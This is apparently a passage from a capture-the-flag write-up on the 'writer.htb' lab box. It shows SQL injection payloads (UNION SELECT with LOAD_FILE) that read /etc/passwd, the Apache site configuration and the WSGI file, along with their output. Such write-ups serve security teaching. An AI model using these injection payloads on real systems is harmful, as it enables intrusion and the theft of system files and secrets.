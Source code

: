 Now with an easier way to obtain information from the box, started by enumerating users from `/etc/passwd` file, where we could list usernames with console, listing **kyle** and **john** as possible targets.

```bash
$ grep -E -v "nologin|false" passwd
root:x:0:0:root:/root:/bin/bash
sync:x:4:65534:sync:/bin:/bin/sync
kyle:x:1000:1000:Kyle Travis:/home/kyle:/bin/bash
filter:x:997:997:Postfix Filters:/var/spool/filter:/bin/sh
john:x:1001:1001:,,,:/home/john:/bin/bash
```

Also, as we're aware that this app is running into apache, querying the default apache site configuration at `/etc/apache2/sites-enabled/000-default.conf` where we could identify the physical location of files inside the file system (`/var/www/writer.htb`)

```bash
$ ./enumFiles.py --file /etc/apache2/sites-enabled/000-default.conf | grep -v "^#"
' union all select 1,CONCAT('R@nD0mD4tA',LOAD_FILE('/etc/apache2/sites-enabled/000-default.conf'),'R@nD0mD4tA'),3,4,5,6 --
Content of /etc/apache2/sites-enabled/000-default.conf:

<VirtualHost *:80>
        ServerName writer.htb
        ServerAdmin admin@writer.htb
        WSGIScriptAlias / /var/www/writer.htb/writer.wsgi
        <Directory /var/www/writer.htb>
                Order allow,deny
                Allow from all
        </Directory>
        Alias /static /var/www/writer.htb/writer/static
        <Directory /var/www/writer.htb/writer/static/>
                Order allow,deny
                Allow from all
        </Directory>
        ErrorLog ${APACHE_LOG_DIR}/error.log
        LogLevel warn
        CustomLog ${APACHE_LOG_DIR}/access.log combined
</VirtualHost>

        # Collect static for the writer2_project/writer_web/templates
```

This file has disclosed the path for Python Web Server Gateway Interface (WSGI) file, with contents below

```bash
$ ./enumFiles.py --file /var/www/writer.htb/writer.wsgi
' union all select 1,CONCAT('R@nD0mD4tA',LOAD_FILE('/var/www/writer.htb/writer.wsgi'),'R@nD0mD4tA'),3,4,5,6 --
Content of /var/www/writer.htb/writer.wsgi:

#!/usr/bin/python
import sys
import logging
import random
import os

# Define logging
logging.basicConfig(stream=sys.stderr)
sys.path.insert(0,"/var/www/writer.htb/")

# Import the __init__.py from the app folder
from writer import app as application
application.secret_key = os.environ.get("SECRET_KEY", "")
```